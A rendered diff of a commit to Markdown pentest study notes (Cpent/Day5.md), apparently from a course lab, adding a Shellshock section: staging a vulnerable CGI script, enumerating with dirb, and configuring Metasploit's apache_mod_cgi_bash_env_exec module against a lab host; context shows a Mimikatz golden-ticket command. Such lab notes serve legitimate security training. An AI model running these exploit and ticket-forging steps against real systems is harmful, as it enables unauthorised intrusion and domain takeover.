

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -121,3 +121,28 @@ PtT
     klist add_bind lpt.com server2019.lpt.com
     kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
 ![image](https://github.com/user-attachments/assets/24f1ebad-a84c-4a3a-a530-a711c97a9dfe)
+
+SHELLSHOCK
+---
+    Preparation on 192.168.0.24:
+    cd /usr/lib/cgi-bin/
+    sudo cp shellshock keygen
+![image](https://github.com/user-attachments/assets/54fc6039-d50f-41fd-a041-3550317af3b4)
+
+    Parrot:
+    dirb http://192.168.0.24
+    dirb http://192.168.0.24/cgi-bin
+![image](https://github.com/user-attachments/assets/f204f99d-7037-4c23-a3ba-4f2a83d00deb)
+![image](https://github.com/user-attachments/assets/c6e7b513-24e3-421d-9769-fbd7892ae987)
+
+    msfconsole
+    search shellshock
+    use exploit/multi/http/apache_mod_cgi_bash_env_exec
+    show options
+    set RHOSTS 192.168.0.24
+    set RPORT 80
+    set TARGETURI /cgi-bin/keygen
+
+
+LFI to RCE
+---
```
